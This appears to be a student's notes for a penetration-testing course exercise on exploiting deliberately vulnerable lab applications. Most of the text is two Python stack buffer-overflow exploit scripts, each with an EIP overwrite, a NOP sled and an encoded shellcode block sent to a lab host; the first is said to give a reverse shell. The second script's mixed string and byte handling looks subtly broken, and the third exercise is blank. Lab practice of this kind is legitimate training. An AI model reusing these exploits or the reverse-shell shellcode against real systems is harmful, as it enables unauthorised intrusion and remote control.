

### 11.2.10.2 Exercise
#### 1. In the Tools folder of your Windows VM, there are three applications called VulnApp1.exe, VulnApp2.exe, and VulnApp3.exe, each containing a vulnerability. Associated Python proof of concept scripts are also present in the folder. Using the PoCs, write exploits for each of the vulnerable applications.  

1. VulnApp1.exe - Gets reverse shell but crashes the application (not multi-threaded)

   ```python
   #!/usr/bin/python3                                       
   import socket     
                            
   try:                 
       print ("\nSending evil buffer...")                                                                            
                               
       filler = b"A" * 2288      
   	eip = b"\xCF\x10\x80\x14"
       offset = b"C" * 8
       nops = b"\x90" * 18
       shellcode =  b""
       shellcode += b"\xbd\x92\x95\x9a\xa3\xdb\xc0\xd9\x74\x24\xf4"
       shellcode += b"\x5f\x2b\xc9\xb1\x52\x31\x6f\x12\x03\x6f\x12"
       shellcode += b"\x83\x7d\x69\x78\x56\x7d\x7a\xff\x99\x7d\x7b"
       shellcode += b"\x60\x13\x98\x4a\xa0\x47\xe9\xfd\x10\x03\xbf"
       shellcode += b"\xf1\xdb\x41\x2b\x81\xae\x4d\x5c\x22\x04\xa8"
       shellcode += b"\x53\xb3\x35\x88\xf2\x37\x44\xdd\xd4\x06\x87"
       shellcode += b"\x10\x15\x4e\xfa\xd9\x47\x07\x70\x4f\x77\x2c"
       shellcode += b"\xcc\x4c\xfc\x7e\xc0\xd4\xe1\x37\xe3\xf5\xb4"
       shellcode += b"\x4c\xba\xd5\x37\x80\xb6\x5f\x2f\xc5\xf3\x16"
       shellcode += b"\xc4\x3d\x8f\xa8\x0c\x0c\x70\x06\x71\xa0\x83"
       shellcode += b"\x56\xb6\x07\x7c\x2d\xce\x7b\x01\x36\x15\x01"
       shellcode += b"\xdd\xb3\x8d\xa1\x96\x64\x69\x53\x7a\xf2\xfa"
       shellcode += b"\x5f\x37\x70\xa4\x43\xc6\x55\xdf\x78\x43\x58"
       shellcode += b"\x0f\x09\x17\x7f\x8b\x51\xc3\x1e\x8a\x3f\xa2"
       shellcode += b"\x1f\xcc\x9f\x1b\xba\x87\x32\x4f\xb7\xca\x5a"
       shellcode += b"\xbc\xfa\xf4\x9a\xaa\x8d\x87\xa8\x75\x26\x0f"
       shellcode += b"\x81\xfe\xe0\xc8\xe6\xd4\x55\x46\x19\xd7\xa5"
       shellcode += b"\x4f\xde\x83\xf5\xe7\xf7\xab\x9d\xf7\xf8\x79"
       shellcode += b"\x31\xa7\x56\xd2\xf2\x17\x17\x82\x9a\x7d\x98"
       shellcode += b"\xfd\xbb\x7e\x72\x96\x56\x85\x15\x59\x0e\xf2"
       shellcode += b"\x3d\x31\x4d\xfc\xa2\x82\xd8\x1a\xb6\x12\x8d"
       shellcode += b"\xb5\x2f\x8a\x94\x4d\xd1\x53\x03\x28\xd1\xd8"
       shellcode += b"\xa0\xcd\x9c\x28\xcc\xdd\x49\xd9\x9b\xbf\xdc"
       shellcode += b"\xe6\x31\xd7\x83\x75\xde\x27\xcd\x65\x49\x70"
       shellcode += b"\x9a\x58\x80\x14\x36\xc2\x3a\x0a\xcb\x92\x05"
       shellcode += b"\x8e\x10\x67\x8b\x0f\xd4\xd3\xaf\x1f\x20\xdb"
       shellcode += b"\xeb\x4b\xfc\x8a\xa5\x25\xba\x64\x04\x9f\x14"
       shellcode += b"\xda\xce\x77\xe0\x10\xd1\x01\xed\x7c\xa7\xed"
       shellcode += b"\x5c\x29\xfe\x12\x50\xbd\xf6\x6b\x8c\x5d\xf8"
       shellcode += b"\xa6\x14\x7d\x1b\x62\x61\x16\x82\xe7\xc8\x7b"
       shellcode += b"\x35\xd2\x0f\x82\xb6\xd6\xef\x71\xa6\x93\xea"
       shellcode += b"\x3e\x60\x48\x87\x2f\x05\x6e\x34\x4f\x0c"
   
       buffer = filler + eip + offset + nops + shellcode
   
       s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
                                                 
       s.connect(("192.168.216.10", 7001))
       s.send(buffer)
       s.close()
       print ("\nDone!")
                                                                                            
   except:
       print ("\nCould not connect!")
   ```
   
2. VulnApp2.exe - PoC

   ```python
   #!/usr/bin/python3                                                                                                
   import socket, struct                                                                                             
                                                                                                                     
   try:                                                                                                              
       print ("\nSending evil buffer...")                                                                            
                                                                                                                     
       ptr_jmp_esp = 0x1480113D                                                                                      
       eip = struct.pack("<I", ptr_jmp_esp)                                                                          
                                                                                                                     
       ## Known bad: \x00\x3b\x45                                                                                    
                                                                                                                     
       shellcode =  b""                                                                                              
       shellcode += b"\xbd\xbb\x7c\xb1\xaa\xd9\xcf\xd9\x74\x24\xf4"                                                  
       shellcode += b"\x5b\x33\xc9\xb1\x52\x31\x6b\x12\x03\x6b\x12"
   	shellcode += b"\x83\x50\x80\x53\x5f\x5a\x91\x16\xa0\xa2\x62"
       shellcode += b"\x77\x28\x47\x53\xb7\x4e\x0c\xc4\x07\x04\x40"
       shellcode += b"\xe9\xec\x48\x70\x7a\x80\x44\x77\xcb\x2f\xb3"
       shellcode += b"\xb6\xcc\x1c\x87\xd9\x4e\x5f\xd4\x39\x6e\x90"
       shellcode += b"\x29\x38\xb7\xcd\xc0\x68\x60\x99\x77\x9c\x05"
       shellcode += b"\xd7\x4b\x17\x55\xf9\xcb\xc4\x2e\xf8\xfa\x5b"
       shellcode += b"\x24\xa3\xdc\x5a\xe9\xdf\x54\x44\xee\xda\x2f"
       shellcode += b"\xff\xc4\x91\xb1\x29\x15\x59\x1d\x14\x99\xa8"
       shellcode += b"\x5f\x51\x1e\x53\x2a\xab\x5c\xee\x2d\x68\x1e"
       shellcode += b"\x34\xbb\x6a\xb8\xbf\x1b\x56\x38\x13\xfd\x1d"
       shellcode += b"\x36\xd8\x89\x79\x5b\xdf\x5e\xf2\x67\x54\x61"
       shellcode += b"\xd4\xe1\x2e\x46\xf0\xaa\xf5\xe7\xa1\x16\x5b"
       shellcode += b"\x17\xb1\xf8\x04\xbd\xba\x15\x50\xcc\xe1\x71"
       shellcode += b"\x95\xfd\x19\x82\xb1\x76\x6a\xb0\x1e\x2d\xe4"
       shellcode += b"\xf8\xd7\xeb\xf3\xff\xcd\x4c\x6b\xfe\xed\xac"
       shellcode += b"\xa2\xc5\xba\xfc\xdc\xec\xc2\x96\x1c\x10\x17"
       shellcode += b"\x38\x4c\xbe\xc8\xf9\x3c\x7e\xb9\x91\x56\x71"
       shellcode += b"\xe6\x82\x59\x5b\x8f\x29\xa0\x0c\x70\x05\xdd"
       shellcode += b"\x14\x18\x54\x21\xba\x99\xd1\xc7\xae\x09\xb4"
       shellcode += b"\x50\x47\xb3\x9d\x2a\xf6\x3c\x08\x57\x38\xb6"
       shellcode += b"\xbf\xa8\xf7\x3f\xb5\xba\x60\xb0\x80\xe0\x27"
       shellcode += b"\xcf\x3e\x8c\xa4\x42\xa5\x4c\xa2\x7e\x72\x1b"
       shellcode += b"\xe3\xb1\x8b\xc9\x19\xeb\x25\xef\xe3\x6d\x0d"
       shellcode += b"\xab\x3f\x4e\x90\x32\xcd\xea\xb6\x24\x0b\xf2"
       shellcode += b"\xf2\x10\xc3\xa5\xac\xce\xa5\x1f\x1f\xb8\x7f"
       shellcode += b"\xf3\xc9\x2c\xf9\x3f\xca\x2a\x06\x6a\xbc\xd2"
       shellcode += b"\xb7\xc3\xf9\xed\x78\x84\x0d\x96\x64\x34\xf1"
       shellcode += b"\x4d\x2d\x54\x10\x47\x58\xfd\x8d\x02\xe1\x60"
       shellcode += b"\x2e\xf9\x26\x9d\xad\x0b\xd7\x5a\xad\x7e\xd2"
       shellcode += b"\x27\x69\x93\xae\x38\x1c\x93\x1d\x38\x35"
   
       nopsled = "\x90" * 8
       filler = b"A" * (2080 - len(shellcode) - len(nopsled))
       ending = "\xFF\xE1"
   
       buffer = nopsled + shellcode + filler + eip + ending
           
       s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
                                                 
       s.connect(("192.168.216.10", 7002))
       s.send(buffer)
       s.close()
       print ("\nDone")
                                                                                            
   except:
       print ("\nCould not connect!")
   ```

   

3. VulnApp3

   ```python
   
   ```

   

   

   

   

   

   

   

   

   

   

   